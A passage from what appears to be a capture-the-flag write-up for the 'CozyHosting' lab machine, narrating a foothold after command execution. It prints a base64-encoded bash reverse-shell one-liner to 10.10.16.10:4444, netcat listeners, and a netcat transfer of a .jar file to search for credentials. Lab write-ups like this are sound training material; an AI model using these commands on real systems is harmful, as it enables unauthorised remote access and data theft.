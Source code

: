 It worked, we have **command execution**, so let's send us a shell, the usual `bash -i` payload did not work, so I **encoded it as base64**:

```bash
echo 'bash -c "bash -i >& /dev/tcp/10.10.16.10/4444 0>&1"' | base64
rlwrap nc -nlvp 4444
```

![](/assets/CozyHosting/16.png)

![](/assets/CozyHosting/17.png)
<br />
<br />
<br />

Great, we are in, however, we haven't get the user flag yet, there is an user called **josh** which we have no access to:

![](/assets/CozyHosting/18.png)
<br />
<br />
<br />

In our directory, there is **.jar file** that seems interesting:

![](/assets/CozyHosting/19.png)
<br />
<br />
<br />

Let's send it to our machine, unzip it and search for credentials:
```bash
nc -nlvp 4443 > cloudhosting-0.0.1.jar
```
